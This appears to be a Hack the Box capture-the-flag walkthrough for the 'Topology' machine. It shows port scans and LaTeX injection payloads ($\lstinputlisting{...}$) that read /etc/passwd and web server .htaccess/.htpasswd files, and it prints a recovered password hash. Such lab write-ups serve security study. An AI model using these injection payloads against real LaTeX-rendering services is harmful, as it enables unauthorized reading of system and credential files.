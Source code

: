 ```
rustscan -a 10.10.11.217 -r 0-65535 --ulimit 5000
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/2848c182-a035-407c-8167-78b2790aa9ba)

```
nmap -Pn -sC -sV -p 22,80 10.10.11.217
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/986ea52b-7b18-4807-89ce-f80469c6a13f)

HTTP
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/1d3e4cab-23f5-4ea8-a735-21843a42d7f9)

Latex Equation Generator
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/ad08b5ff-4423-4b4d-812a-11baf54aad51)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/c11f8c7b-5fe3-4090-80de-432c5c73cb73)

Subdomain
```
http://latex.topology.htb/
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/23789ad6-aaf8-4b16-8d3c-a1cd682b99ad)

Latex Injection LFI
```
$\lstinputlisting{/etc/passwd}$
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/42f0bed3-ee29-42cd-834c-155489d60216)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/9f36e1dd-a7ec-4958-8954-be457431bdb2)
```
$\lstinputlisting{/var/www/dev/.htaccess}$
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/4ae5a043-96cc-4fec-885d-ad5e9fc40c3e)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/7a59670b-97b4-46fe-b381-f61626e7eb93)
```
$\lstinputlisting{/var/www/dev/.htpasswd}$
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/48421c5f-fc30-48c0-a114-0c6e1b7667f8)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/f59ad50d-05ab-42ff-83a5-8f8cb3e56d44)
```
Credentials:
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```
